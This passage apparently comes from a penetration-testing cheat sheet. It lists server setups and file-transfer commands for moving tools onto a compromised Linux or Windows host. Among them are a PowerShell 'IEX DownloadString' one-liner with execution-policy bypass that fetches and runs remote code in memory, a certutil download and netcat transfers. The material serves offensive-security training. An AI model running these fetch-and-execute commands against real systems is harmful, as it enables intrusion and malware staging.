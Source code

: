 #### Escaping jailed Shells <a href="#escaping-jailed-shells" id="escaping-jailed-shells"></a>

Go [here](https://www.noobsec.net/jailbreak)

### File Transfers <a href="#file-transfers" id="file-transfers"></a>

#### Server <a href="#server" id="server"></a>

```bash
# HTTP - Apache2
# cp file /var/www/html/file_name
sudo service apache2 start

# HTTP - Python. Default port 8000
# python2
sudo python -m SimpleHTTPServer 80
# python3
sudo python3 -m http.server 80

# SMB
sudo impacket-smbserver <share_name> <path/to/share>

# FTP
# apt-get install python-pyftpdlib
sudo python -m pyftpdlib -p 21

# TFTP (UDP)
sudo atftpd --daemon -port 69 /path/to/serve

# Netcat
nc -nvlp <port> < file/to/send
```

#### Linux - HTTP <a href="#linux---http" id="linux---http"></a>

```bash
# Wget
wget http://<ip>/file_name -O /path/to/save/file

# Netcat
nc -nv <ip> <port> > file/to/recv

# cURL
curl http://<ip>/file_name --output file_name
```

#### Windows <a href="#windows-1" id="windows-1"></a>

* HTTP

```powershell
# Does not save file on the system
powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<ip>/<file_name>')"
# Saves file on the system
powershell.exe -nop -ep bypass -c "iwr -uri http://<ip>/<file_name> -outfile path/to/save/file_name"
powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadFile('http://<ip>/<file_name>','path/to/save/file_name')"

certutil.exe -urlcache -split -f http://<ip>/file file_save
```
